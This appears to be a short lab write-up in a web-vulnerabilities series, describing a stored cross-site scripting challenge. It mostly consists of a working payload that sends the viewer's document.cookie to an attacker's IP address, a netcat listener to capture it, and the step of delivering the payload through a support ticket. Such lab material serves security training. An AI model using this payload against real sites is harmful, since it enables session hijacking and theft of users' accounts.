

# Challenge - 3


Make the payload

```javascript
<script>var i=new Image; i.src="http://192.168.182.131:1234/?"+document.cookie;</script>
```

Set up Net Cat listener

```javascript
nc -nvlp 1234
```

Send the payload through the support ticket

Net cat will capture once the ticket is viewed




---
[Back to Common Web Vulnerabilities](./README.md)
